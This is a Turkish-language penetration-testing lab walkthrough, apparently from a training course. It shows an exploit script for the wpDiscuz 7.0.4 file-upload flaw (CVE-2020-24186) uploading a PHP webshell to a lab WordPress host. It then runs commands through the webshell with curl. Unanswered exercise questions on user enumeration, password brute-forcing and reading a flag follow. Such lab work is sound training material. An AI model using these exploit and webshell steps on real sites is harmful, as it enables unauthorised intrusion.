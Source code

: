 Exploit script iki parametre alır: -u URL ve -p geçerli bir path'in yolu.

```shell-session
[!bash!]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

Yazılan exploit başarısız olabilir, ancak yüklenen web shell'i kullanarak komutları çalıştırmak için cURL kullanabiliriz. Exploit scriptinde görebileceğimiz komutları çalıştırmak için .php uzantısından sonra ?cmd= eklememiz yeterlidir.

```shell-session
[!bash!]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bu örnekte, uthsdkbywoxeebg-1629904090.8191.php dosyasını temizlediğimizden emin olmak ve raporumuzun eklerinde bir kez daha test nesnesi olarak listelemek isteriz.


Soru : http://blog.inlanefreight.local adresine karşı kullanıcı numaralandırması gerçekleştirin. Admin dışında, mevcut diğer kullanıcı nedir?

Cevap : 

Soru : Keşfedilen kullanıcıya karşı bir bruteforcing  saldırısı gerçekleştirin. Kullanıcının parolasını yanıt olarak gönderin

Cevap : 

Soru :  Bu bölümde gösterilen yöntemleri kullanarak, oturum açma shell /bin/bash olarak ayarlanmış başka bir sistem kullanıcısı bulun.

Cevap : 

soru : Bu bölümdeki adımları izleyerek, host üzerinde kod yürütme elde edin ve webroot'taki flag.txt dosyasının içeriğini gönderin.

Cevap : 